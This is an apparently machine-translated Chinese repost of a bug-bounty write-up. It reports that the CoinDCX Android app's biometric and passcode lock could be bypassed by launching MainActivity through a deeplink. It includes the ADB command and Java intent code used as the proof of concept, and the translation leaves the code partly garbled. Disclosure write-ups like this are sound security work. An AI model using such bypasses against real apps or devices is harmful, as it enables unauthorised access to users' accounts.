

# 绕过 android 的生物识别和密码安全功能

> 原文：<https://infosecwriteups.com/bypass-of-biometrics-password-security-functionality-for-android-8e0174ac7cac?source=collection_archive---------1----------------------->

> **报道:**2 月 27 日星期六晚上 8:52
> 2020**再次报道:**2020 年 11 月 2 日星期一凌晨 3:12
> 请求更新:2020 年 11 月 7 日星期六上午 10:02
> 另一个请求更新:2020 年 11 月 11 日星期三下午 12:20
> 。
> 。
> 。

没有来自 COINDCX 的回应，然后我决定 tweed 和标签当局联系他们。
[https://Twitter . com/Dheerajmadhukar/status/1365683708104118277](https://twitter.com/Dheerajmadhukar/status/1365683708104118277)

[https://twitter.com/nrjkhandelwal](https://twitter.com/nrjkhandelwal)https://twitter.com/smtgpt

又一次没人在乎！** **但是 BUG 已经修复** **

> **现在你有了实际的报告；)&概念验证**
> 
> **资产:**
> *com . coin dcx(Android:Play Store)*
> 
> **资产明细:**
> *版本— 0.8.3
> 更新—2020 年 10 月 27 日*
> 
> **测试安卓设备详情:**
> *非根*
> 
> **弱点:**
> *认证不当——通用*
> 
> **总结:**
> *CoinDCX Android App 有一个使用指纹和密码解锁 App 的选项。但是如果“com.coindcx.MainActivity”活动用“deeplink”触发，就不再需要认证了。*
> 
> **重现步骤:**
> *可以通过 ADB 和 Java (Android App):*
> 
> **ADB 命令:**
> $ ADB shell am start-n com . coin dcx/。主要活动-d "[https://coindcx.com](https://coindcx.com)
> 
> **Java(安卓应用):**
> 
> Intent Intent = new Intent()；
> intent . set class name(" com . coin dcx "，" com . coin dcx . main activity ")；
> intent . setdata(uri . parse(" https://coin dcx . com "))；
> startActivity(意图)；
> 
> **影响:**
> *未经授权访问使用应用程序。*

**概念验证**

***推特简介:****@*[Dheerajmadhukar](https://twitter.com/Dheerajmadhukar)

***LinkedIn 简介:****@*[dheerajtechnolegends](https://www.linkedin.com/in/dheerajtechnolegends/)